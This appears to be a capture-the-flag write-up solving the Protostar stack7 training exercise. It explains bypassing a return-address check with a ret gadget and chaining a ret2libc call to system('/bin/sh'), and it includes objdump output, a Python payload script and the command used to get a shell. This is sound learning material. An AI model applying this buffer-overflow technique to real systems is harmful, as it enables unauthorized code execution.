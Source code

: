 <h2>Goal</h2>
https://exploit-exercises.com/protostar/stack7/

This challenge is very similar to stack 6.  The only difference is that there is a check on the first `RET`.  The check is makes sure that ret does not start with a `b`. ` if((ret & 0xb0000000) == 0xb0000000)`  Then we get the prinft statement, the same as the last challenge.  

So how can we get around this?  Add in a valid `RET` address after the junk to fill the buffer, and then add in the system address, exit address and then either shellcode or an address of command to execute.  I will be using the same process as stack6, of finding "/bin/sh" within libc and using that memory value.  For details on how to find this, refer to the [stack6 writeup ](https://github.com/Freakazoidile/ctf_challenges/blob/master/exploit-exercises/protostar/stack6.md)


After finding the point at which `$EIP` control is gained, same as last time, 80 bytes to fill the buffer, than control at 81 I needed to get past the check. Time to put in a valid `RET`

<h2>How to get a valid RET address?</h2>

```
#> objdump -d stack7 | grep ret
 8048383:	c3                   	ret    
 8048494:	c3                   	ret    
 80484c2:	c3                   	ret    
 8048544:	c3                   	ret    
 8048553:	c3                   	ret    
 8048564:	c3                   	ret    
 80485c9:	c3                   	ret    
 80485cd:	c3                   	ret    
 80485f9:	c3                   	ret    
 8048617:	c3                   	ret 
 ```
 
**Common error**: I tried using the first `RET` address `0x8048383` and had a breakpoint set at the LEAVE instruction inside the getpath() function.  I filled the buffer with 80 chars, then put my address.  The break point did not get hit, the program exited.  I tried this again, changing my breakpoint thinking I am not fully understanding something. Again no hit.  After using `objdump` to print the entire stack7 executable I looked for my address `0x8048383`. It turns out I was jumping to somewhere that would completely avoid my breakpoint. 

So next I tried the last address, and viola the breakpoint hit and I could continue forward by finding the address of system, exit, libc and then the offset of "/bin/sh" within libc.  To see how to do this, go back to the stack6 writeup.

<h2>Solution</h2>

Here's the code that ended up working for me. 

```
import struct

buf="A"*80

addr=struct.pack("I", 0x8048617)
system=struct.pack("I", 0xb7ecffb0)
exit=struct.pack("I", 0xb7ec60c0)
env=struct.pack("I", 0xb7e97000+0x11f3bf)

print buf+addr+system+exit+env
```

I used this to print the output to a file and in GDB ran stack7 with the output of the above as input `r < /tmp/exploitoutput`, the program stated it had exited cleanly, meaning the the exit we sent it had executed.  Time to exit GDB and run this to get a shell.

`(python /tmp/gen ; cat) | ./stack7`

Success!
